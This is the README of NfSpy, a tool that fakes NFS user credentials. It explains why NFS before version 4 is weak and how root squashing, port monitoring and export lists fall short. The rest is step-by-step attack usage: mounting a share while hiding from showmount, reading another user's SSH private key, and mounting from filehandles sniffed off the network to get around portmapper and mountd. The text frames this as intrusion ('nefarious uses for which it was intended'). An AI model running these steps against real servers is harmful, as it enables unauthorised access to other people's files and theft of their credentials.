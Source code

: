 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](https://github.com/bonsaiviking)

NfSpy is a library/program that uses the Filesystem in Userspace (FUSE)
library to automate the falsification of NFS credentials when mounting an NFS
share.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured squash_root,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs_portmon

Another setting that can be enabled is nfs_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

    nfspy --help

### Example

There is an NFS server on 192.168.1.124.

    $ showmount -e 192.168.1.124
    Export list for 192.168.1.124:
    /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

    $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

    $ cd /mnt
    /mnt$ ls -l
    drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
    /mnt$ cd smithj
    /mnt/smithj$ cat .ssh/id.rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,30AEB543E512CA19
    <snip>

To unmount, use fusermount:

    $ sudo fusermount -u /mnt

### Advanced example

There is an NFS server on 192.168.1.124. Portmap is blocked, so you can't get a list of shares, but you can sniff the network traffic.

    $ sudo tshark -n -i eth0 -T fields -e nfs.fhandle
    Running as user "root" and group "root". This could be dangerous.
    Capturing on eth0
    01:00:04:00:01:00:22:00:e5:03:d8:9d:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    
    ^C3 packets captured

Now use the dirhandle and getroot mount options to avoid using the mount
daemon, and use the nfsport option to avoid using the portmapper, traversing
up the directory tree to the root of the export. 

    $ sudo nfspy -o rw,server=192.168.1.124:,nfsport=2049/udp,dirhandle=01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00,getroot mnt

Note that we didn't provide a path to mount, since all we know is the nfs
filehandle.


BUGS
----

* Write access is beta. It has worked in my tests on a handful of systems,
  but could use more testing. Because of this, NfSpy defaults to mounting
  ro. Specify the rw mount option to change this.

* NfSpy is an NFSv2 client. NFSv2 is very old, and some servers may not
  support it. Future releases may support NFSv3, but probably not NFSv4.

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems with writing to files. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.
